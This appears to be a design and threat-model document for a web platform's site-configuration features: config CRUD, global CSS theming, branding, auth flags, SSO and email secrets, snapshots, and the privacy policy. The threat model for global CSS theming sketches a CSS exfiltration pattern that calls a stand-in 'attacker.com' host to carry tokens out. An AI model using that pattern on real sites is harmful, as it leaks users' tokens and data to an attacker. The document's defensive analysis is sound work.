





# Cluster: Site Configuration & Theming

The configuration layer driving most behavior, branding, and feature toggles. Backend: `routes/v2/system/site-management.route.js`, `services/siteConfig.service.js`, `models/siteConfig.model.js`, `config/predefinedSiteConfigs.js`. Frontend: `pages/SiteConfigManagement.tsx`.

---

## Capabilities in this cluster

| ID | Capability |
|----|------------|
| [CAP-CONFIG-01](#cap-config-01--site-config-crud) | Site config CRUD |
| [CAP-CONFIG-02](#cap-config-02--site-config-management-admin) | Site Config management (admin) |
| [CAP-CONFIG-03](#cap-config-03--global-css-theming) | Global CSS theming |
| [CAP-CONFIG-04](#cap-config-04--home-config-editor) | Home config editor |
| [CAP-CONFIG-05](#cap-config-05--branding) | Branding |
| [CAP-CONFIG-06](#cap-config-06--auth-config-flags) | Auth config flags |
| [CAP-CONFIG-07](#cap-config-07--sso--email-configuration) | SSO & Email configuration |
| [CAP-CONFIG-08](#cap-config-08--site-config-snapshots--restore) | Site config snapshots & restore |
| [CAP-CONFIG-09](#cap-config-09--privacy-policy) | Privacy policy |

## CAP-CONFIG-01 — Site config CRUD

### Description

Generic key-value store, scoped (`site`/`user`/`model`/`prototype`/`api`), with value types (string/boolean/number/array/object/image_url/color/date), a `secret` flag, categories; unique on `(key, scope, target_id)`. Predefined configs seeded on startup (`$setOnInsert`, never overwriting admin values).

### Who uses it / value

Admins (configure the platform); end users (consume public config); the app (feature toggles/branding).

### Acceptance criteria

- Admin: `GET/POST /v2/site-config`, `GET /v2/site-config/all`, `POST /v2/site-config/by-keys`, `POST /v2/site-config/bulk-upsert`, `GET/PATCH/DELETE /v2/site-config/:id`, `/key/:key`, `/:scope/:target_id[/all]` → `200`/`201`/`204` as appropriate.
- Public: `GET /v2/site-config/public[/:key|/:scope/:target_id[/:key]]` returns non-secret configs; `GET /v2/site-config/sso/providers` returns enabled providers without secrets.

### Quality control

Admin sets a key → public read reflects it (unless `secret`); upsert by key; bulk-upsert; seeding never overwrites an admin-set value.

### Security

Public routes public; everything else requires `MANAGE_USERS`. `secret` configs are never exposed publicly.

**Risks:**
- **Config takeover:** a missing `MANAGE_USERS` check on admin endpoints would let any user flip security-critical flags (e.g. disable `PUBLIC_VIEWING` gating or enable `SELF_REGISTRATION`) and take over the instance's auth posture.
- **Secret leakage:** if the `secret` flag were honored only client-side or stripped from a single endpoint, secrets such as SSO `clientSecret` or email API keys could leak via a public read path.
- **Scope/target_id spoofing:** write endpoints keyed on `(key, scope, target_id)` could let an attacker write into another tenant's/model's scope if scope authorization is not enforced server-side.

### Data protection

`secret` flag hides values from public reads; SSO provider secrets + email API keys **encrypted at rest** (`utils/encryption.js`), decrypted only for admin display.

**Risks:**
- **Plaintext-at-rest fallback:** if encryption were bypassed or a new secret type were added without wiring it through `utils/encryption.js`, secrets would sit in plaintext and a DB dump would expose live credentials.
- **Admin-display interception:** secrets are decrypted for admin display, so a compromised admin session or logged response body leaks usable SSO/email credentials directly.

## CAP-CONFIG-02 — Site Config management (admin)

### Description

Admin page with 11 sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy), each with edit + edit history (restore/snapshot).

### Who uses it / value

Admins (central configuration).

### Acceptance criteria

- Route `/admin/site-config` (`MANAGE_USERS`); each section edits its keys; edit history supports restore.

### Quality control

Edit a config in a section → value persists + applies site-wide; restore from history → reverts.

### Security

`MANAGE_USERS` for all sections.

**Risks:**
- **Single-gate blast radius:** every section sits behind the same `MANAGE_USERS` permission, so one compromised admin (or one overly-broad grant) can rewrite auth, SSO, email, and feature flags simultaneously.
- **History restore abuse:** if restore-from-history lacked re-authorization, an attacker who once held `MANAGE_USERS` could replay an old config (e.g. re-enabling disabled SSO) after their access was revoked.

### Data protection

Edit history (snapshots) retained; secret sections mask values.

**Risks:**
- **Snapshot retention of secrets:** edit history snapshots may retain prior secret values; if those snapshots aren't masked/encrypted like the live config, old credentials remain recoverable.
- **Change history leak:** config edit history can reveal administrative actions, SSO provider changes, and email setup patterns to anyone with admin access.

## CAP-CONFIG-03 — Global CSS theming

### Description

Admin-managed stylesheet served at `/static/global.css`; get/update/restore-default.

### Who uses it / value

Admins (brand the site); end users (themed UI); plugins (consume CSS variables).

### Acceptance criteria

- The stylesheet is served publicly at `/static/global.css` (loaded in `index.html`); the admin endpoints `GET /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200`, `PUT /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200`, and `POST /v2/site-config/global-css/restore-default` (auth + `MANAGE_USERS`) → restores the shipped default.

### Quality control

Edit `:root` tokens (e.g. `--primary`) → UI re-themes live; restore-default → reverts.

### Security

All three `/v2/site-config/global-css` endpoints require auth + `MANAGE_USERS`; the stylesheet itself is public at `/static/global.css`. CSS can contain selectors only (no script); instance overrides use `!important` guidance.

**Risks:**
- **CSS-based exfiltration:** even without `<script>`, an attacker who can write the stylesheet can craft `background:url(attacker.com?token=...)`-style rules to exfiltrate page content and tokens, or use `@import` to pull remote stylesheets.
- **Unauthenticated styling takeover:** if `PUT` lacked the `MANAGE_USERS` check, anyone could restyle the site (defacement) or mount phishing-by-styling (hiding warnings, recoloring buttons to lure clicks).
- **DOM-based attacks via selectors:** hostile selectors combined with `attr()`/content tricks can extract attributes from rendered DOM and leak them via image requests.

### Data protection

Stylesheet text only; no PII.

**Risks:**
- **Indirect PII leak:** if CSS can target elements that render user data (e.g. names in attribute values), attribute-value exfiltration could disclose PII to an attacker-controlled endpoint.

## CAP-CONFIG-04 — Home config editor

### Description

Drag-and-drop editor for `CFG_HOME_CONTENT` blocks (hero, feature-list, button-list, news, recent, popular, partner-list, home-footer) + raw JSON/preview/history.

### Who uses it / value

Admins (compose the landing page).

### Acceptance criteria

- Edits `CFG_HOME_CONTENT`; `PageHome` renders blocks via `homeComponentMap`; unknown block types skipped.

### Quality control

Add/reorder blocks → home page reflects changes; preview shows layout; raw JSON editable.

### Security

Admin only.

**Risks:**
- **Stored XSS via block content:** if block titles/descriptions/image URLs are rendered without sanitization, an admin (or a compromised admin account) could inject markup/scripts into every visitor's landing page.
- **Malicious image URL redirect:** `image_url` fields, if not validated, could point to attacker-controlled hosts used for tracking or to serve malicious payloads.

### Data protection

Block content (titles/descriptions/image URLs); `requiredLogin` flags on action buttons.

**Risks:**
- **Login-flow confusion:** a `requiredLogin` flag on action buttons drives auth gating; if misconfigured or tampered with, buttons could route users to attacker-controlled auth flows (credential phishing) from the public landing page.

## CAP-CONFIG-05 — Branding

### Description

`SITE_TITLE`, `SITE_LOGO_WIDE`, `SITE_FAVICON`, `SITE_THEME_COLOR`, `SITE_DESCRIPTION`.

### Who uses it / value

Admins (brand identity); end users (consistent branding).

### Acceptance criteria

- Consumed in `NavigationBar`/`RootLayout`/fullscreen dashboard logo.

### Quality control

Set `SITE_TITLE` → nav title + browser title update; set logo → renders.

### Security

Public read; admin write.

**Risks:**
- **Brand spoofing via logo URL:** `SITE_LOGO_WIDE`/`SITE_FAVICON` are URLs; if an admin (or anyone with write access) sets them to an external host, the site loads third-party assets, enabling tracking or phishing via a swapped logo.
- **Phishing via title/description:** a malicious `SITE_TITLE`/`SITE_DESCRIPTION` could impersonate another brand on the public site and browser tab, aiding credential phishing.

### Data protection

Branding asset URLs only.

**Risks:**
- **Asset-URL leakage:** branding URLs can reveal internal hosting paths or third-party providers in the public config response.

## CAP-CONFIG-06 — Auth config flags

### Description

`PUBLIC_VIEWING`, `SELF_REGISTRATION`, `SSO_AUTO_REGISTRATION`, `PASSWORD_MANAGEMENT` (all default `true`); loaded into `req.authConfig` per request; secure-fail to false on error.

### Who uses it / value

Admins (control access/registration); the app (gating).

### Acceptance criteria

- Flags drive auth behavior across the app (see [identity-access.md](./identity-access.md)); restore defaults from `predefinedAuthConfigs.js`.

### Quality control

Toggle `PUBLIC_VIEWING` off → signed-out users can't browse; `SELF_REGISTRATION` off → register `403`.

### Security

Public (effective flags observable); admin to change; safe-default all-false on error.

**Risks:**
- **Flag tampering to bypass auth:** if the admin write check on these flags were weak, an attacker could flip `PUBLIC_VIEWING=true` or `SELF_REGISTRATION=true` to weaken access controls or open anonymous registration.
- **Fail-open on load error:** the design secure-fails to all-false; if that fallback regressed to fail-open, a config-load error would silently expose the site to anonymous users.
- **Observability leak:** effective flags are publicly observable, which can help attackers probe which auth paths are enabled (e.g. whether self-registration is open).

### Data protection

Boolean flags only.

**Risks:**
- **Inference of attack surface:** while flags are booleans only, exposing which gates are enabled tells an attacker exactly which registration/SSO avenues to target.

## CAP-CONFIG-07 — SSO & Email configuration

### Description

`SSO_PROVIDERS` (encrypted `clientSecret`) with public enabled-providers list; `EMAIL_CONFIG` (provider resend/smtp/none, from, apiKey, smtpConfig, encrypted secrets) + test send.

### Who uses it / value

Admins/DevOps (configure SSO + email); end users (SSO buttons).

### Acceptance criteria

- `GET /v2/site-config/sso/providers` → enabled providers (no secrets); admin CRUD decrypts for display. `POST /v2/site-config/email/test` → sends a test email.

### Quality control

Add an SSO provider → sign-in button appears; configure email (Resend/SMTP) → test send succeeds; remove provider → button hidden.

### Security

Secrets encrypted at rest; never in public reads; admin-only writes.

**Risks:**
- **SSO secret theft:** a compromised admin session decrypts `clientSecret` for display; a stolen secret lets an attacker impersonate the SP and intercept SSO logins.
- **Email API key abuse:** a leaked `EMAIL_CONFIG` apiKey/smtp credentials let an attacker send mail as the platform (phishing from a trusted domain) or exhaust the mail quota.
- **Provider-list spoofing:** if the public providers endpoint returned config beyond the enabled flag, it could leak redirect URLs / client IDs useful for phishing.

### Data protection

Secrets (clientSecret/apiKey/smtp pass) encrypted; email logs may include recipient addresses.

**Risks:**
- **Recipient disclosure in logs:** test-send logs may include recipient addresses, surfacing the admin's email (and any test recipients) in audit/log stores.
- **Persistent credential reuse:** encrypted secrets persist until rotated; a past compromise leaves stolen credentials valid until an admin manually rotates them.

## CAP-CONFIG-08 — Site config snapshots & restore

### Description

Maintains a `SiteConfigSnapshot`; admin restore merges the deploy snapshot with predefined defaults (snapshot wins per key), filtered by keys/categories/secret, reporting source (`snapshot`/`predefined`/`mixed`/`none`).

### Who uses it / value

Admins/DevOps (recover config after a bad change or migration).

### Acceptance criteria

- `POST /v2/site-config/restore-snapshot` (admin) → `200` restored config with per-key source; auto-synced when the deploy seeder runs.

### Quality control

Change a config → restore-snapshot → reverts to snapshot (where present) / predefined default.

### Security

Admin only.

**Risks:**
- **Snapshot replay of weak config:** an attacker who reaches `restore-snapshot` could replay an older, less-secure snapshot (e.g. before SSO was hardened), reverting the instance to a vulnerable posture.
- **Predefined-default downgrade:** if a key is missing from the snapshot, predefined defaults are applied; if predefined defaults ever contained a weak value historically, restore could re-introduce it.

### Data protection

Snapshots hold site-scope configs incl. encrypted secrets.

**Risks:**
- **Snapshot of secrets at rest:** snapshots include encrypted secrets; if encryption keys are rotated but old snapshots aren't re-encrypted, they become unreadable or, worse, decryptable with a leaked old key.
- **Recovery-time secret exposure:** during restore, decrypted secrets may flow into admin-visible output/logs, widening the window for capture.

## CAP-CONFIG-09 — Privacy policy

### Description

Public Privacy Policy page from `PRIVACY_POLICY_CONTENT` markdown; admin editor with edit/preview + history.

### Who uses it / value

End users (legal info); admins (maintain policy).

### Acceptance criteria

- Route `/privacy-policy` (public) renders the markdown; `PrivacyPolicySection` (admin) edits + previews.

### Quality control

Edit the policy → public page updates; `PRIVACY_POLICY_URL` can redirect instead.

### Security

Page public; editor admin.

**Risks:**
- **Markdown XSS:** if `PRIVACY_POLICY_CONTENT` markdown is rendered without sanitization, an admin (or compromised admin) could inject scripts into a page visited by every user for legal/trust reasons.
- **Redirect abuse via `PRIVACY_POLICY_URL`:** if `PRIVACY_POLICY_URL` can be set to an external URL, an attacker with admin access could redirect the privacy policy to a phishing page, undermining legal trust.

### Data protection

Policy markdown only.

**Risks:**
- **Legal-text tampering:** unauthorized edits to the published policy could change stated data-handling commitments, creating legal exposure and misleading users about what their data is used for.